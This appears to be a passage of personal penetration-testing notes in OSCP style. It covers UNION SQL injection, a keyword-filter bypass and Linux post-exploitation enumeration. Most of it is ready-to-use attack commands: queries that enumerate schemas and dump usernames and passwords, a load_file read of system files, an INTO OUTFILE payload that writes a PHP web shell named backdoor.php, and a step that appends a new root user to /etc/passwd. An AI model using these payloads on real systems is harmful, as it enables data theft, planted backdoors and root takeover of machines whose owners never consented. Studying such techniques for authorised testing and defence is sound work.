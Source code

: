 ### UNION SQLi
UNION SELECT - selecting data from an additional table in addition to the intended table

Determine Number of Columns:
1. `$validQuery ORDER by 1`
2. `$validQuery ORDER by 2`
3. and so on until error, then you can form a union statement to chain a second query and see how data is displayed.

Start with `UNION ALL SELECT 1, 2, X`. Then you can determine which column has the most space, making room for more fun commands/exploits (Commands below are based on MariaDB, others might be different)
Enumeration Examples:
- `UNION ALL SELECT 1, 2, @@version`
- `UNION ALL SELECT 1, 2, user ()`
- `UNION ALL SELECT 1, 2, table_name FROM information_schema.tables` - this can grab the table name, like with "users" below
	- Then you can use the table name (users) to reveal other columns:`UNION ALL SELECT 1, 2. column_name FROM information_schema.columns WHERE table_name='users'` 
	- Then you can reveal other info from those columns: `UNION ALL SELECT 1, username, password FROM users`
- `UNION ALL SELECT 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')` - You might be able to use the load_file function to execute code on the system as well:
- `UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'` - using the into OUTFILE to write code, and insert it into the system. 
	- This might present an error, but you could test it with the previous command and see if the file was created.
	- OR you can just run it by trying `$Host/backdoor.php?cmd=$cmd`

### Filter bypass
#### XML encoding
`&#x53;ELECT` instead of `SELECT` to bypass prohibited keywords
- Decoded server-side before being passed to SQL interpreter

## XSS

[Cheatsheet](https://notchxor.github.io/oscp-notes/2-web/xss/) from notchxor.

# Post-Exploit
## After Linux Foothold

### Enumeration 
- `id`
- `sudo -l` - what can we run using sudo
- `history` - could have some juicy details in history
- `cat /etc/passwd`
	- If you can somehow edit /etc/passwd:
	1. `openssl passwd $newPassword`
	2. `echo "$newUser:$hashAbove^:0:0:root:/root:/bin/bash" >> /etc/passwd
		1. or simply copy$hashAbove^ into `root:<this spot>:etc` within the /etc/passwd file
- `uname -a` - kernel exploits
	- `cat /etc/issue`
- `hostname`
- `ps -aux`
	- `watch -n 1 "ps -aux | grep $searchTerm$"`
- `ipconfig`
- `ss -anp or netstat`
- `dpkg -l` (to list applications installed by dpkg)
- `find / -writable -type d 2>/dev/null` (find writable directories)
- `history` or `cat` any `/home/.history` files